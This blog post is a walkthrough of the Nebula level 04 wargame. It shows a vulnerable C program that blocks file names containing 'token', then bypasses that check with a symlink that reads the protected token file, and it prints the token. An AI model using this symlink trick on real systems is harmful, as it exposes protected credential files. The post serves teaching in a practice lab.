 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 04"
date: "2011-12-05T05:45:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


I really like [Nebula 04](http://exploit-exercises.com/nebula/level04), because it is really easy, but still a commonly missed thing in programming.

<!-- more -->

The object of this challenge is to find a vulnerability and exploit this C++ program.

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
 char buf[1024];
 int fd, rc;

 if(argc == 1) {
  printf("%s [file to read]\n", argv[0]);
  exit(EXIT_FAILURE);
 }

 if(strstr(argv[1], "token") != NULL) {
  printf("You may not access '%s'\n", argv[1]);
  exit(EXIT_FAILURE);
 }

 fd = open(argv[1], O_RDONLY);
 if(fd == -1) {
  err(EXIT_FAILURE, "Unable to open %s", argv[1]);
 }

 rc = read(fd, buf, sizeof(buf));

 if(rc == -1) {
  err(EXIT_FAILURE, "Unable to read fd %d", fd);
 }

 write(1, buf, rc);
}
```

So this program first verifies that you did pass it an argument of some sort. If you pass that check, it then makes sure that your argument does not contain the term "token", since the developer knows the filename they want to protect. If both of those suceed, it tries to open the file, and print it to the screen, as long as it exists, and has no general read errors.

So to exploit this program, we need to pass the program an argument, and it needs to not contain the term "token" in it. So all we need to do is make a symbolic link.

```
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/level04
level04@nebula:/home/flag04$ ./flag04 /tmp/level04
06508b5e-8909-4f38-b630-fdb148a848a2
```

The only odd part about this challenge is that there's apparently no privilege escalation done, so you can run "getflag", like every other problem up until now. [Someone else](http://exploit-exercises.com/nebula/level04#comment-375659125) noticed the same thing, but there has been no answer.  So as far as I'm concerned, this challenge is complete. We got the contents of the token file.
